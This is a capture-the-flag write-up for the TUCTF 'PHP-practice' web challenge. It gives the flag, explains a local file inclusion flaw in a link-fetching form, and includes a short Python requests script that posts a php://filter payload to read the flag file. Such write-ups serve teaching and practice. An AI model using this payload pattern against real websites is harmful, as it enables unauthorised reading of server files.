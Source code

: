 # PHP-practice challenge
<p align="center">
  <img src="Attachments/Description.jpg" />
</p>


## FLAG:
`TUCTF{th1s_i5_my_secr3t_l0c@l_f1le!}`

## Solution

the challenge provides a simple form that asks for a link to be entered. After a link is entered, it downloads its content and then shows it. If for example we give as input a link to an image then the server downloads it and displays it with an img tag. After several attempts, I found that an LFI could be exploited and with this vulnerability I first read the .htaccess file which gave me the name of the flag. In this python script, I provide my solution to grab the flag from the site:

```python
import requests

burp0_url = "http://php-practice.tuctf.com:80/display.php"
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://php-practice.tuctf.com", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://php-practice.tuctf.com/", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
burp0_data = {"link": "php://filter/resource=gcfYAvzsbyxV.txt"}
requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
```

